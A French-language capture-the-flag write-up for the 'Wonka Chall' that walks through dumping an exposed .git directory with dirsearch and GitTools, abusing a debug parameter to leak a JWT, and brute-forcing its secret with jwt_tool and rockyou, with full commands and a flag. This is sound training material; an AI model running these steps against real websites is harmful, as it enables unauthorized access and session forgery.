 # Wonka Chall

> Akerva

> https://willywonka.shop

## Step 1

1. dirsearch -> .git
2. GitTools -> dumper -> extractor
3. Flag 1 dans .git/COMMIT_EDITMSG

> 16ECD0DF90036C3CA8D6E988BB1737DC332CD72A8F4E62C32E0F825EDD155009

More detail: ['Step1'](./step1.md)

## Step 2

1. trouver le debug=1 dans le .git
2. aller sur la page /reset
3. bf les user -> trouver test
4. https://willywonka.shop/reset?debug=1 -> un jwt + backend.willywonka.shop dans la stacktrace
5. dirsearch sur le backend -> on trouve encore un /reset -> /reset?debug=1 -> set cookie : backend-session=jwt vide
5. bf avec rockyou le secret du jwt qu'on récup dans la stacktrace -> s3cr3t

## Resources

1. GitTools : https://github.com/internetwache/GitTools.git
2. Seclist, username shortlist : https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
3. jwt checker : https://jwt.io/
4. jwt_tool : https://github.com/ticarpi/jwt_tool

---

## Useful command used

* dirsearch

```bash
python3 /opt/t/pentest/recona/dirsearch/dirsearch.py -u https://willywonka.shop/ -e do,java,action,db,sql,~,xml,pdf,jsp,php,old,bak,zip,tar,asp,aspx,txt,html,xsl,xslx -t 25
```

* gittools

```bash
/opt/t/pentest/exploit/GitTools/Dumper/gitdumper.sh https://willywonka.shop/.git/ git_out
/opt/t/pentest/exploit/GitTools/Extractor/extractor.sh git_out git_extract
```

* jwt_tool

```bash
python ./jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ0ZXN0IiwiYXVkIjoiZnJvbnRlbmQud2lsbHl3b25rYS5zaG9wIiwiaWF0IjoxNTYyNjY0MzE1LCJleHAiOjE1NjI2NjQ5MTV9.UW7ZBlYilpv6g5oI-ryrnq1l00kfurcTbaG2FtSEU-o /opt/t/bf/rockyou.txt
```